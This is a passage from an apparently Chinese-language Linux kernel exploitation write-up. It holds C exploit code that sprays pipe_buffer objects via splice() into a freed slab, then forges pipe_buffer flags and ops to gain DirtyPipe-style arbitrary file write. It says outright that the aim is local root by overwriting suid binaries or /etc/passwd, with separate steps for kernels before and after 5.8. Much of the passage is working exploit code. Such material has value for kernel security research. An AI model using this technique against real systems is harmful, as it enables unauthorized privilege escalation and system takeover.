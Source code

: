 ```c
#define ATTACK_FILE "/usr/bin/mount"

// filled with pipe_buffer
logd("spray pipe_buffer to re-acquire the 0x400 slab freed by skbuff_data");
int attack_fd = open(ATTACK_FILE, O_RDONLY);
if (attack_fd < 0) {
    die("open %s: %m", ATTACK_FILE);
}
for (int i = 0; i < NUM_PIPES; i++) {
    if (pipe(pipes[i])) {
        die("alloc pipe failed");
    }

    write(pipes[i][1], buff, 0x100 + i);

    loff_t offset = 1;
    ssize_t nbytes = splice(attack_fd, &offset, pipes[i][1], NULL, 1, 0);
    if (nbytes < 0) {
        die("splice() failed");
    }
}
```

### 2-5. 类似DirtyPipe利用

**方法**：通过读取 `sk_buff->data` 就能泄露整个 `pipe_buffer` 结构，并转化为 `pipe_buffer` 的UAF。接下来既可以泄露 `pipe_buffer->ops` 内核基址来构造ROP链（控制流劫持），也可以转化为类似 DirtyPipe利用场景（任意文件修改）。

**原理**：具体原理可参考 <https://github.com/veritas501/pipe-primitive>。**在 kernel >= 5.8 中需要修改 pipe buffer 中 splice 页的**`flag |= PIPE_BUF_FLAG_CAN_MERGE`**即可（有能力可以顺便把offset和len改成0，这样就能从文件的开头开始写）；在 kernel < 5.8 中，需要先leak一下pipe_buffer中的anon_pipe_ops，然后将 splice 页的的ops改为anon_pipe_ops（因为<5.8版本中能否merge是看ops的）（有能力依然可以顺便把offset和len改成0）。** 

**优点**：从而下次对pipe写入就会修改文件的page cache，得到和DirtyPipe一样任意文件写的能力！对本地提权来说只要修改suid程序的内容或是修改/etc/passwd即可。不需要做ROP适配就能具备多版本通用性。

```c
// 堆喷伪造 pipe_buffer 的代码
logd("edit pipe_buffer->flags");
{
    memset(buff, 0, sizeof(buff));
    memcpy(buff, pipe_buffer_backup, sizeof(pipe_buffer_backup));
    struct typ_pipe_buffer *ptr = (struct typ_pipe_buffer *)buff;
    ptr[1].flags = PIPE_BUF_FLAG_CAN_MERGE; // for kernel >= 5.8
    ptr[1].len = 0;
    ptr[1].offset = 0;
    ptr[1].ops = ptr[0].ops; // for kernel < 5.8
    spray_skbuff_data(buff, 0x400 - 0x140);
    hexdump(buff, sizeof(struct typ_pipe_buffer) * 2);
}
```
